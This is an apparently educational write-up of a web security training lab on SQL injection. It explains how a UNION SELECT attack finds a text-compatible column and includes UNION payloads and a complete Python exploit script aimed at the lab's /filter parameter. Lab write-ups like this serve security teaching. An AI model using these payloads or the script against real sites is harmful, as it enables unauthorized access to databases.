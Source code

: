 ```yaml
---
title: 'SQLi Lab 8'
description: 'SQL injection for identifying a column compatible with string data'
---
```



## SQL injection UNION attack, finding a column containing text

<div style="text-align: justify;">
  This lab demonstrates how to identify a column compatible with string data during a SQL injection attack. After determining the number of columns returned by the query (as done in the previous lab), the next step is to perform a `UNION SELECT` attack with a provided random string. By inserting the string into each column one by one and observing which query executes successfully, you can determine which columns accept text data. This is a crucial step before retrieving actual sensitive data from the database.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `category` parameter in `/filter` is vulnerable to SQL injection.
- Determine the number of columns returned by the query (e.g. 3 columns using `'+UNION+SELECT+NULL,NULL,NULL--`).
- Extract the random string provided in the lab hint from the page.
- Replace each `NULL` with the dynamic string in separate attempts to find a text-compatible column (e.g. `'+UNION+SELECT+'abcdef',NULL,NULL--`).
- Once the correct column is identified, the lab is solved.
- This method is foundational for constructing full `UNION SELECT` attacks in later labs.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
import re

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """
    Check if Burp Suite is running and listening on the configured proxy.
    """
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def get_dynamic_string(url):
    """
    Fetch the base URL and extract the random string from the hint paragraph.
    Example: <p id="hint">Make the database retrieve the string: '2xO59V'</p>
    """
    try:
        res = requests.get(url, verify=False, proxies=proxies, timeout=10)
        res.raise_for_status()
        match = re.search(r"retrieve the string: '([^']+)'", res.text)
        if match:
            return match.group(1)
        else:
            print("[-] Could not extract dynamic string from hint.")
            sys.exit(1)
    except requests.RequestException as e:
        print(f"[-] Error while fetching base page: {e}")
        sys.exit(1)

def exploit_sqli(url, payload):
    """
    Send payload, then check base URL for success banner.
    """
    try:
        full_url = url.rstrip("/") + payload
        res = requests.get(full_url, verify=False, proxies=proxies, timeout=10)
        res.raise_for_status()

        # Check base URL again
        check_res = requests.get(url, verify=False, proxies=proxies, timeout=10)
        check_res.raise_for_status()
        return "Congratulations" in check_res.text

    except requests.RequestException as e:
        print(f"[-] Error while sending request: {e}")
        sys.exit(1)

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Extract the dynamic string
    dynamic_str = get_dynamic_string(url)
    print(f"[*] Extracted dynamic string: {dynamic_str}")

    # Step 3: Define SQL injection payload
    payload = f"/filter?category='+UNION+SELECT+NULL,'{dynamic_str}',NULL--"
    print(f"[*] Using payload: {payload}")

    # Step 4: Attempt exploitation
    if exploit_sqli(url, payload):
        print("[+] Lab solved! 🎉")
    else:
        print("[-] Payload sent but lab not solved.")

if __name__ == "__main__":
    main()
```
